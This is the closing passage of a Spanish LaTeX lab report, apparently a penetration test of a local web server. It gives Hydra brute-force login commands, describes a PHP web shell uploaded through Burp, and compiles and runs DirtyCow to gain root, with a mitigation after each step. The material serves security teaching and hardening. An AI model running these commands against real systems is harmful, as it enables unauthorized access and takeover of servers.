    
\includegraphics[scale=0.3]{./imagenes/hydra_1}
    \caption{Reconocimiento de parámetros}
\end{figure}
Después,  usaremos esos parámetros para personalizar la llamada de hydra:
\begin{verbatim}
    hydra -L palabras_web.txt -P palabras_web.txt 192.168.150.128 http-post-form "/users/login.php:username=^USER^&password=^PASS^:The username/password combination"
\end{verbatim}
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.4]{./imagenes/hydra_2PNG}
    \caption{Ataque exitoso}
\end{figure}
Incluso, si llevamos a cabo los mismos pasos en la página de login del admin, utilizando el comando adecuado:
\begin{verbatim}
   hydra -L palabras_web.txt -P palabras_web.txt 192.168.150.128 http-post-form "/admin/index.php?page=login:adminname=^USER^&password=^PASS^:Admin Area"
\end{verbatim}
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.4]{./imagenes/hydra_4}
    \caption{Usuario y contraseña del admin}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.6]{./imagenes/hydra_5}
    \caption{Acceso como admin}
\end{figure}
\subsubsection*{Solución a  la vulnerabilidad:}
Deberemos exigir mayor robustez en las contraseñas, exigiendo parámetros más complejos,  como por ejemplo:
\begin{itemize}
    \item Más de 10 caracteres
    \item Un número
    \item Una mayúscula
    \item Una minúscula
    \item Un símbolo
\end{itemize}

% -------------------------------------------------% -------------------------------------------------
\subsection{Subida de archivos sin comprobación}
\subsubsection*{Explicación de la vulnerabilidad:}
Al permitirnos la propia págia subir fotos, puede ser que haya una mala configuración de la función de subida y nos permita subir objetos más maliciosos, como una shell de PHP. 
Interceptamos una petición con Burp para comprobar los parámetros:
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.3]{./imagenes/burp_1}
    \caption{Petición interceptada de BURP}
\end{figure}

Ahora, desde Burp hacemos la misma petición post, aumentando el tamaño máximo para evitar la falta de espacio, y añadiendo nuestra shell. 
En este caso, podemos ver como se ha subido la shell correctamente.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.3]{./imagenes/burp_2}
    \caption{Shell en la web}
\end{figure}
Lo cual es un riesgo para la web. 
\subsubsection*{Solución a  la vulnerabilidad:}
Sería de vital importancia asegurarse de que solo se suban formatos permitidos, como PNG o JPG, forzando así a la web a no aceptar ninguna otra extensión. 
% -------------------------------------------------% -------------------------------------------------

\subsection{Escalada de privilegios en el server}
\subsubsection*{Explicación de la vulnerabilidad:}
Como último paso, intentaremos forzar una escalada de privilegios en el servidor. Para ello, usaremos la shell anterior, pero en este caso probaremos con DirtyCow, por ser uno de los scripts más famosos para realizar estas tareas. 
Como el usuario tiene acceso a /etc/passwd, usaremos el siguiente script:
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.3]{./imagenes/dirtycow_1}
    \caption{Código en GIT}
\end{figure}
Una vez lo tenemos copiado, lo subiremos al servidor usando la shell que habíamos hecho con anterioridad, comunicando el servidor con nuestro local. 
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{./imagenes/dirtycow_2}
    \caption{dirtycow en uploads}
\end{figure}
Después, ejecutamos el comando
\begin{verbatim}
    gcc -pthread dirty.c -o imfdirty –lcrypt
\end{verbatim}
Para compilarlo y poder ejecutarlo con \begin{verbatim}
    ./imfdirty.
\end{verbatim}
Finalmente, habremos conseguido root:
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.7]{./imagenes/dirtycow_3}
    \caption{Root}
\end{figure}
\subsubsection*{Solución a  la vulnerabilidad:}
Para evitar estas vulnerabilidades, necesitamos tener nuestro servidor actualizado y evitar también la subida de shells como en el paso anterior. 
Hemos de evitar mostrar la versión del servidor (para que no se pueda buscar exploits) además configurar los archivos importantes (como etc/password) para que solo pueda acceder a ellos el root.
% -------------------------------------------------% -------------------------------------------------% -------------------------------------------------% -------------------------------------------------


\end{document} 
